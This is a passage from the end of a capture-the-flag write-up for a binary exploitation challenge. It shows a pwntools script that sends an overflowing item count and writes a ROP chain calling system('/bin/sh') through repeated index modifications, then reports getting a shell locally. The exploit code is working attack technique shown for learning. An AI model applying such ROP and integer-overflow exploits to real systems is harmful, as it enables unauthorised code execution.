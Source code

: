 Nice! Let's get that address and use the same offset, also the same trick as above to get shell:

```python
p.sendlineafter(b'Number of items: ', b'0x2000000000000000')
p.sendlineafter(b'[1=Yes]', b'1')
pop_rsi_r15 = 0x0000000000000d51
payload = flat(
    exe.address + pop_rdi,
    next(libc.search(b'/bin/sh')),
    exe.address + pop_rsi_r15,
    0,
    0,
    libc.sym['system'])
for i in range(int(len(payload) / 8)):
    modify(i+11, payload[i*8:i*8+8])
p.sendlineafter(b'Index to modify (-1 to quit): ', b'-1')
```

Execute script and we get shell (in case address leak is correct):

Full code: [solve.py](solve.py)

# 4. Get flag

Because I made this writeup after the time and the server closed so I cannot get the real flag, but I will try to run it on local machine:

![get-shell.png](images/get-shell.png)
